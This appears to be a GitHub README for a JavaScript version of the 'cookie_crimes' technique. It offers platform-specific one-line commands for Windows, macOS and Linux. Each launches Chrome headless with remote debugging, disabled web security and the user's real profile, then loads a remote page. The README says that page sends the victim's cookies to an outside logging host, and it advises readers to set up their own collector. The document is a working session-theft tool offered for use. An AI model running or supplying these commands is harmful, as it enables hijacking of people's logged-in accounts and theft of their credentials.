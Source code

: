This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output (your sensitve cookies) to my own loggly.com URL. You should host it on your own server and modify the location where the cookies get sent.

Thank you to @shellsterdude for introducing me to cookie_crimes as well for the hints, tips and help testing he gave along the way.

Note: Running this command leaves a headless browser behind, causing non-deterministic results if you run it again. You should kill the chrome processes associated with the headless browser or restart the OS before running this command a second time to guarantee your successfull exfil of cookies.

# Windows

## Windows 10

### 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

### 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# Linux

```google-chrome --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

